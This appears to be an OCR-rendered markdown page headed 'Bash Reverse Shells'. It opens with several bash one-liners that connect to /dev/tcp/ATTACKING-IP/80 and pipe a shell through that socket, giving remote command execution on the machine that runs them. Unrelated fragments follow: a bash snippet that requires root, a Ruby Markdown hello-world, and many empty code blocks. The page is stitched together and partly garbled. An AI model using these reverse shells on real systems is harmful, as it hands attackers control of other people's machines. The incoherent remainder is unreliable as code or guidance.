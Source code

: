 # Bash Reverse Shells

```shell
exec /bin/bash 0&0 2>&0

```

```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

```
```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

#

```/bin/bash

###### CONFIG
ACCEPTED_HOSTS="/root/.hag_accepted.conf"
BE_VERBOSE=false

if [ "$UID" -ne 0 ]
then
 echo "Superuser rights required"
 exit 2
fi

genApacheConf(){
 echo -e "# Host ${HOME_DIR}$1/$2 :"
}

echo '"quoted"' | tr -d \" > text.txt

```

#

```ruby
require 'redcarpet'
markdown = Redcarpet.new("Hello World!")
puts markdown.to_html
```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```
